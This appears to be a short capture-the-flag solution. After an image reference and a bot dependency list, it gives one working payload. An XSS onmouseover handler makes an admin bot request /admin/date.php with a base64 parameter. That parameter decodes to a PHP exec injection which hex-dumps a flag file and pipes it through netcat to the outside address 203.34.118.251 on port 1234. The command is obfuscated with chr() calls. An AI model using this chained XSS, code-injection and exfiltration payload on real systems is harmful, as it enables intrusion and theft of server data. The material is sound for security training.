 Bot Dependencies:
- phantomjs
- selenium python packages

Solution:
`<body onmouseover=location="/admin/date.php?f=bCIpO2V4ZWMoJ2hkJy5jaHIoMzIpLidmbConLmNocigxMjQpLiduYycuY2hyKDMyKS4nMjAzLjM0LjExOC4yNTEnLmNocigzMikuJzEyMzQnKTsoIg">`
